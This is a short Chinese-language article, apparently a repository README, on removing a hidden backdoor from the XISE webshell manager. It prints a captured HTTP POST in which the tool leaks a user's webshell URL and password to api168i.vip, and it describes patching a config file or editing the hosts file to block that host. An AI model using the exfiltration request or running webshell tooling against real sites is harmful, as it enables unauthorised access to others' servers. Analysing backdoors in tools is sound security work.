 # securitydrops
These are some things encountered on the road to making money, converted into articles

## xise后门去除**

工具来源：https://webshell6.com/?id=4 (不出意外应该全站有后门，站长却意思全站无后门，估计是几年老黑啊)

准备工具：WSExokrer、c32asm

![image](https://github.com/hcsmall/securitydrops/assets/139908133/ae36239a-069b-4150-8a86-11dde98b7007)


启动程序后使用WSExokrer 选择xise进程监控，给XISE添加一条链接

![image](https://github.com/hcsmall/securitydrops/assets/139908133/51b83c3e-e2c0-4680-933c-6b2e37454e4e)




`POST /abc1.php HTTP/1.1`
`Accept: image/gif, image/x-xbitmap, image/jpeg, image/pjpeg, application/x-shockwave-flash, application/vnd.ms-excel, application/vnd.ms-powerpoint, application/msword, */*`
`Referer: http://api168i.vip/abc1.php`
`Accept-Language: zh-cn`
`Content-Type: application/x-www-form-urlencoded`
`Content-Length: 43`
`User-Agent: Mozilla/4.0 (compatible; MSIE 6.0; Windows NT 5.0)`
`Host: api168i.vip`
`Cache-Control: no-cache`

`hm=http://xxxx/bak111.php||xise`



可以看到向api168i.vip 发送了明显的shell数据，找到后就可以去找后门地址去掉就可以了。

mdb 数据库文件

exe本身

调用文件dat

使用c32asm加载fz.dat这个配置文件，搜索api168i.vip。



![image](https://github.com/hcsmall/securitydrops/assets/139908133/9ed2afdf-3f46-4183-8cda-74acd6b7427c)




将地址直接填充后保存即可。

当然如果你不会使用c32的话，也可以修改本地hosts文件将 api168i.vip 指向127.0.0.1 同样也可以解决向后门地址发送shell的问题

